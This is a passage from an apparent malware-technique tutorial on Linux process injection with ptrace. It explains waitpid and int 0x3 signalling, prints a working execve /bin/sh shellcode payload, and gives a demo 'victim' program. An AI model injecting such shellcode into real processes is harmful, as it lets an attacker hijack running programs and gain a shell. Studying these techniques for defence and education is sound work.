 ```cpp
}
```

But there is a caveat. *Why do we use `waitpid` in process injection code?*     
When we attach to a process using `ptrace` (via `PTRACE_ATTACH`), the target process doesn't stop immediately. It continues executing until the operating system delivers a signal indicating that the debugger (our injector) has taken control. We use `waitpid` to block execution in our injector until the target process enters this stopped state:      

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

Without `waitpid`, we might attempt to read or modify memory before the OS guarantees that the target process is fully stopped, leading to undefined behavior.      

Also, in process injection, we often need to detect when our *injected shellcode has finished executing*. To do this, we use a software interrupt, such as the `int 0x3` instruction, which triggers a `SIGTRAP` signal in the target process. This signal pauses the process, allowing us to regain control via `waitpid`.    

Ok, but what about `wait`. *What is `wait`, and when do we use it?*     

The `wait` function is a simpler variant of `waitpid`. It waits for any child process to change state. Unlike `waitpid`, it doesn't let us specify a specific PID or use advanced options.

In the context of process injection, we don't typically use `wait`, as we need fine-grained control over a specific process (our target), which `waitpid` provides. However, `wait` might be used in cases where multiple child processes are involved, and we don't care which one changes state first.     

So, by using `waitpid` strategically, we can ensure smooth and reliable process injection.       

For simplicity, I just used simplest payload:     

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
"\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### demo

First of all for demonstrating purposes we need a "victim" process.      

Here's a simple "victim" process written in C that runs an infinite loop, making it a suitable target for injection testing. This program will print a message periodically, simulating a real running process:     

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
```